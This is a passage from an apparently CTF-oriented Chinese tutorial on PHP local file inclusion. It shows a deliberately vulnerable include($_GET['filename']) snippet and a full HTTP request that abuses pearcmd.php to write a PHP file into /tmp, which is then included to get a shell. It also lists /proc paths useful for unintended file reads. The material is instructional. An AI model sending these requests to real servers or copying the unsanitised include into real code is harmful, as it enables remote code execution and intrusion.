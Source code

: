   ```php
  # 注意使用 data:// 的时候必须开启 allow_url_include 和 allow_url_fopen
  <?php
    highlight_file(__FILE__);
    include($_GET['filename']);
  ?>

  推荐使用 `base64` 编码进行参数的传递
  ```

![img](https://yk-image-md.oss-cn-wuhan-lr.aliyuncs.com/image202406101743181.jpeg)

## bypass

### pearcmd

在[Docker PHP裸文件本地包含综述](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x06-pearcmdphp)中，提到了 `pearcmd.php` 的利用方法。该方法无需竞争条件，也没有额外的版本限制，只要是Docker启动的PHP环境即可通过一个数据包搞定。

> 在Docker的任何版本镜像中，`pcel/pear`都会被默认安装，安装路径在 `/usr/local/lib/php`

通过发送以下数据包，目标将写入一个文件 `/tmp/hello.php`，其中包含 `<?=phpinfo()?>`。然后，利用文件包含漏洞包含这个文件即可实现getshell。

```http
GET /index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>+/tmp/hello.php HTTP/1.1
Host: 192.168.1.162:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
```

### peclcmd

与 `peclcmd` 相似，参考 [SEETF-2023](https://github.com/zeyu2001/My-CTF-Challenges/blob/main/SEETF-2023/readonly/README.md) 中的一道题目。

### proc

在文件包含漏洞的情境中，通常会存在非预期的情况，例如 [Dreamer_revenge](https://5ime.cn/hmgb-2023.html#Dreamer-revenge)（红明谷杯 2023）、[ArkNights](https://jbnrz.com.cn/index.php/2023/09/03/ycb2023/#header-id-13)（羊城杯 2023）、[YamiYami](https://ph0ebus.cn/post/HDCTF2023 Writeup.html#非预期解)（HDCTF 2023）、[MyBox](https://www.cnblogs.com/gxngxngxn/p/17662463.html)（NSSCTF 2nd）。因此，如果出题人未清空变量，很有可能通过 `/proc` 实现非预期攻击。

`/proc` 是一个在 Linux 系统中用于访问内核内部数据结构、获取系统信息以及控制系统行为的虚拟文件系统。它提供了一种通过文件系统的方式查看和操作内核状态的机制。值得注意的是，`/proc` 是一个伪文件系统，其数据只存在于内存中，而不占用硬盘空间。

以下是一些常用的 `/proc` 目录下文件和目录：

1. `/proc/self`：表示当前进程的目录。通过 `/proc/self` 可以方便地获取当前进程的信息。
2. `/proc/$pid/`：表示进程号为 `$pid` 的进程目录。例如，`/proc/1234/` 对应进程号为 1234 的进程（Docker容器默认的PID为1）
